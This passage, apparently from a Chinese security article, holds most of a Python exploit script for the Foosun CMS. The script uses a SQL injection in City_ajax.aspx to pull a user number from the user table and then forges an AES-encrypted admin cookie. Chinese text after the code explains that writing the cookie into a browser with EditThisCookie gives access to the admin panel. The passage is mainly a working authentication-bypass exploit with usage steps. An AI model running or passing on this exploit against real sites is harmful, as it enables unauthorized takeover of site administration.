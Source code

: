 ```
          write_cookie(url, encrypt_cookie)
  except Exception:
      traceback.print_exc()
def get_usernumber(url):
  fullurl = url + "/user/City_ajax.aspx?CityId=1' union all select UserNum,UserNum from dbo.fs_sys_User where User
  content = urllib.urlopen(fullurl).read()
  index = content.index("<option value=\"")
  if  index != -1:
      usernumber = content[index+15:]
      usernumber = usernumber[0: content.index("\"")+1]
      print "Get usernumber success. Usernumber is :", usernumber
      return usernumber
  else:
      print "Get usernumber fail"
      return None
def pkcs7padding(data):
  bs = AES.block_size
  padding = bs - len(data) % bs
  padding_text = chr(padding) * padding
  return data + padding_text
def generate_cookie(usernumber):
  orgstr = "%s,admin,0,1,False"%(usernumber,)
  cryptor = AES.new(KEY[0:32], AES.MODE_CBC, IV[0:16])
  ciphertext = cryptor.encrypt(pkcs7padding(orgstr))
  ciphertext = base64.b64encode(ciphertext)
  return ciphertext
def write_cookie(url, ciphercookie):
  print "Generate Cookie[SITEINFO]:", ciphercookie
  print "Now you can write cookie and access the url: %s/manage/index.aspx"%(url,)
if __name__ == '__main__':
  args = parse_args()
  try:
      if args.url is not None:
          run(args.url[0])
  except Exception, e:
      print "python Foosun_exp.py -u [url]"
```

执行后成功得到加密的绕过后台登录 cookie

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qbZbDRXzIQ050waXYhBx3cG5gPy8gubZ5zRoBYqg5xMqLjDcpiaH9SYg/640?wx_fmt=png)

将脚本打印的加密 Cookie 用 EditThisCookie 写入浏览器 Cookie

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qYutkVyRQCgczPyGsE2JhVg1yW7p9y3ZIXNC88iaxRht3X1kG7GlozLA/640?wx_fmt=png)

然后访问 http://www.test.com/manage/Index.aspx 即可成功进入后台

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qILhDMaCFEm5yJicHqJtIGh3LweTJ7kNQIUGwufnT47ic0a8DDziaPM10Q/640?wx_fmt=png)

**注意：**
